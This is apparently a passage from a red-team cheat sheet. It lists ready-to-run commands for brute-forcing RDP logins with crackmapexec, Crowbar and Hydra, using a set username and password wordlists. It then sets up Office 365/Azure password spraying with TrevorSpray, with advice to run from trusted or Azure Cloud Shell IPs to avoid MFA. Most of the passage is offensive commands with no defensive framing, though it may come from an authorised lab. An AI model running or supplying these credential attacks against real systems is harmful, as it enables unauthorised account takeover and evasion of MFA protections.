 ### crackmapexec
```powershell 
./cme rdp $VMIP -u $user -P $wordlist 
```

### CrowBar
```bash
sudo apt install -y nmap openvpn freerdp2-x11 tigervnc-viewer   python3 python3-pip
git clone https://github.com/galkan/crowbar
cd crowbar/
pip3 install -r requirements.txt
```

### First VM, trying admin account, Single IP, User, Passwordlist
```bash 
VMIP=""
cidr=""
user="adelev"
wordlist="shortpass.txt"
wordlist2=".\O365\loot\shortpass.txt"
./crowbar.py -b rdp -s $VMIP -u $user -C $wordlist shortpass.txt
```

```bash
# Hydra
hydra -t 1 -V -f -l $user -P $wordlist rdp://$VMIP
```

######################################### PHASE II ###########################################################################
## Password Spraying
### Can run from TrustedIP space here to avoid MFA / Simulate Trusted Network
### Can run from an AzureIP / Cloud Shell for trusted-ish external IP

### TrevorSpray from TrustedIP/Shell/AzNix (try proxy through cloud shell)
```bash
pip install git+https://github.com/blacklanternsecurity/trevorproxy
pip install git+https://github.com/blacklanternsecurity/trevorspray
### Variables
tenant="shrine.cloud"
password="Password123!"
```

### Recon
```bash
trevorspray --recon $tenant
```
